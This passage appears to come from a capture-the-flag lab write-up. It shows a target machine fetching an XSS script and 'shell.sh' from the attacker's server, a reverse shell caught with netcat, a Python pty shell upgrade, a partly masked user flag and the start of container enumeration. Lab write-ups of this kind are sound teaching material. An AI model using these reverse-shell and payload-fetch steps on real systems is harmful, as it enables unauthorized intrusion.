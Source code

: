 
    10.10.11.112 - - [25/Aug/2021 15:21:04] "GET /xss-6.js HTTP/1.1" 200 -
    10.10.11.112 - - [25/Aug/2021 15:21:08] "GET /shell.sh HTTP/1.1" 200 -



And then there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 51690
    bash: cannot set terminal process group (22): Not a tty
    bash: no job control in this shell
    bash: /root/.bashrc: Permission denied
    bash-5.0$



I can upgrade with `python` and `pty`:



    bash-5.0$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    bash: /root/.bashrc: Permission denied
    bash-5.0$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    bash-5.0$ 



And there's `user.txt` in `/home/localstack`:



    bash-5.0$ cat /home/localstack/user.txt
    c877918f************************



## Shell as root on localstack

### Enumeration

#### Container FS

I'm currently the localstaack user in what is clearly a container. The
container has the IP 172.17.0.2, and there's a `/.dockerenv` file.

There's two user home directories, `localstack` and `node`. Both are
completely empty:



    bash-5.0$ ls -la home/localstack/
    total 12
    drwxr-sr-x    1 localsta localsta      4096 Jul 19 17:46 .
    drwxr-xr-x    1 root     root          4096 Feb  1  2021 ..
    lrwxrwxrwx    1 root     localsta         9 Jul 19 17:46 .ash_history -> /dev/null
    -r--r-----    1 root     localsta        33 Jul 12 13:59 user.txt
    bash-5.0$ ls -la home/node/
    total 8
    drwxr-sr-x    2 node     node          4096 Dec 17  2020 .
    drwxr-xr-x    1 root     root          4096 Feb  1  2021 ..
